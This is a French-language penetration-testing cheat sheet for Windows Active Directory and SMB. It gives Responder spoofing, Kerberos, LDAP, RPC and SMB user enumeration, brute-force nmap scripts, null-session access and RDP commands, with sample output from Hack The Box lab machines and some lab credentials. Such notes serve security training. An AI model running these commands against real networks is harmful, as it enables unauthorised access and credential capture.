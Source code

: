 # Windows AD et SMB (reseau)

## Responder

[Projet](https://github.com/lgandx/Responder)

### llmnr et netbios spoofing, netLM interception

```sh
sudo responder -I tun0
```

* log path: /usr/share/responder/logs/



## AD users

### enumeration des utilisateurs:

```sh
nmap --script smb-enum-users.nse -p 445 <host>
sudo nmap -sU -sS --script smb-enum-users.nse -p U:137,T:139 <host>
```

### ridenum (apt install)

#### Connect to the remote server (192.168.1.236) and cycle from RID 500 to 50000 (500 50000), using the given password file (/tmp/passes.txt):

```sh
ridenum 192.168.1.236 500 50000 /tmp/passes.txt
```
### impacket

```sh
/usr/share/doc/python3-impacket/examples/lookupsid.py HTB/svc-alfresco:s3rvice@10.10.10.161
```

#### sans authent

```sh
/usr/share/doc/python3-impacket/examples/GetADUsers.py  -all -no-pass -dc-ip 10.10.10.172 MEGABANK.LOCAL/
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Querying 10.10.10.172 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Guest                                                 <never>              <never>             
AAD_987d7f2f57d2                                      2020-01-02 23:53:24.984897  2020-01-13 20:26:39.751833 
mhope                                                 2020-01-03 00:40:05.908924  2020-01-03 14:29:59.037500 
SABatchJobs                                           2020-01-03 13:48:46.392235  2020-01-14 17:42:40.486176 
svc-ata                                               2020-01-03 13:58:31.332169  <never>             
svc-bexec                                             2020-01-03 13:59:55.863422  <never>             
svc-netapp                                            2020-01-03 14:01:42.786264  <never>             
dgalanos                                              2020-01-03 14:06:10.519660  <never>             
roleary                                               2020-01-03 14:08:05.832167  <never>             
smorgan                                               2020-01-03 14:09:21.629084  <never>             
```

#### SPN

```powershell
setspn
setspn -Q */*
```

## Enum4linux

```sh
Enum4linux <IP>
```

# Kerberos:

* sur le rzo: scanner les ports 88

* en local: `dsquery server`

## kerbute

```sh
 ./kerbrute_linux_amd64 userenum -d HTB.local --dc 10.10.10.161 user 

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.2 (fd5f345) - 10/15/19 - Ronnie Flathers @ropnop

2019/10/15 17:31:39 >  Using KDC(s):
2019/10/15 17:31:39 >  	10.10.10.161:88

2019/10/15 17:31:39 >  [+] VALID USERNAME:	 Administrator@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 andy@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 lucinda@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 mark@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 santi@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 sebastien@HTB.local
2019/10/15 17:31:39 >  [+] VALID USERNAME:	 svc-alfresco@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 EXCH01$@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox0659cc1@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox6ded678@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox7108a4e@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox83d6781@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailbox968e74d@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxb01ac64@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxc0a90c9@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxc3d7722@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxfc9daad@HTB.local
2019/10/15 17:31:40 >  [+] VALID USERNAME:	 HealthMailboxfd87238@HTB.local
2019/10/15 17:31:40 >  Done! Tested 32 usernames (18 valid) in 0.461 seconds
```


## LDAP

```sh
sudo nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=megabank,dc=local"' 10.10.10.172
```

### une fois qu'on a un compte:

```sh
ldapdomaindump -u DANTE.LOCAL\\mrb3n -p Welcome1 172.16.1.20
```


## NETBIOS

```sh
nbtscan 192.168.1.1/24  
nmblookup -A 10.10.10.161
```


## RPC

### samrdump.py: An  application that communicates with the Security Account Manager(SAM)  Remote interface from the MSRPC suite. 

```sh
/usr/share/doc/python3-impacket/examples/samrdump.py 10.10.10.161
```

### lookupsid.py: This script allows you to bruteforce the Windows SID through [MS-LSAT] MSRPC Interface, aiming at finding remote users/groups.

```sh
/usr/share/doc/python3-impacket/examples/lookupsid.py user:motdepasse@10.10.10.149
```


### autres:

```
nmap <target> --script=msrpc-enum

rpcclient -U "" -N 192.168.1.102

enumdomusers

queryuser 0x3e8
```


## smbclient


### enumeration des share smb:

```sh
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <host>
nmap -p 445 --script smb-os-discovery <host>
nmap -sV -p 445 --script smb-brute <host>
nmap --script smb-vuln* -p 139,445 <host>
```

### smbmap

```sh
smbmap -H 10.10.10.161
smbmap -u test -H 172.16.1.101
```

### impacket:

```sh
proxychains impacket-smbclient 172.16.1.17
```

```sh
/usr/share/doc/python3-impacket/examples/smbclient.py HTB/svc-alfresco:s3rvice@10.10.10.161
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

Type help for list of commands
# shares
ADMIN$
C$
IPC$
NETLOGON
SYSVOL

#use <share>
#ls
#get

#smbclient
smbclient -L 192.168.1.102
smbclient //192.168.1.102/tmp       
smbclient --user=Hazard -L 10.10.10.149
smbclient -L \\HTB -I 10.10.10.161 -N
```


## RDP

### linux client

#### rdesktop

```sh
rdesktop <IP>
```

#### xfreerdp

```sh
xfreerdp /u:admin /p:password /cert:ignore /v:MACHINE_IP /workarea
```

#### remmina

```sh
sudo remmina
```
### Windows

```powershell
mstsc.exe
```